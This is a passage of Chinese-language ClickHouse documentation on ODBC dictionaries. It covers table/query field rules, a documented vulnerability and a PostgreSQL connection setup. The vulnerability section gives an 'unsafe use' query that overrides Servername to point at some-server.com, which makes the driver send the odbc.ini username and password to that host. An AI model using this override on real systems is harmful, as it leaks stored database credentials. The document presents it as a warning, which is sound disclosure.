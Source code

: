 :::note
`table` 和 `query` 字段不能一起使用。并且必须声明 `table` 或 `query` 字段之一。
:::

ClickHouse从ODBC驱动程序接收引用符号，并在查询中引用所有设置，因此必须根据数据库中表名的大小写相应地设置表名。

如果在使用Oracle时遇到编码问题，请参阅相应的 [FAQ](/knowledgebase/oracle-odbc) 项目。
##### 已知的ODBC字典功能漏洞 {#known-vulnerability-of-the-odbc-dictionary-functionality}

:::note
通过ODBC驱动程序连接到数据库时，连接参数 `Servername` 可以被替代。在这种情况下，来自 `odbc.ini` 的 `USERNAME` 和 `PASSWORD` 的值将发送到远程服务器，可能会泄露。
:::

**不安全使用的示例**

让我们为PostgreSQL配置unixODBC。`/etc/odbc.ini`的内容：

```text
[gregtest]
Driver = /usr/lib/psqlodbca.so
Servername = localhost
PORT = 5432
DATABASE = test_db
#OPTION = 3
USERNAME = test
PASSWORD = test
```

如果您随后执行如下查询

```sql
SELECT * FROM odbc('DSN=gregtest;Servername=some-server.com', 'test_db');
```

ODBC驱动程序将发送来自 `odbc.ini` 的 `USERNAME` 和 `PASSWORD` 的值到 `some-server.com`。
##### 连接Postgresql的示例 {#example-of-connecting-postgresql}

Ubuntu操作系统。

安装unixODBC和PostgreSQL的ODBC驱动程序：

```bash
$ sudo apt-get install -y unixodbc odbcinst odbc-postgresql
```

配置`/etc/odbc.ini`（或`~/.odbc.ini`，如果您用运行ClickHouse的用户登录）：

```text
[DEFAULT]
Driver = myconnection

[myconnection]
Description         = PostgreSQL connection to my_db
Driver              = PostgreSQL Unicode
Database            = my_db
Servername          = 127.0.0.1
UserName            = username
Password            = password
Port                = 5432
Protocol            = 9.3
ReadOnly            = No
RowVersioning       = No
ShowSystemTables    = No
ConnSettings        =
```
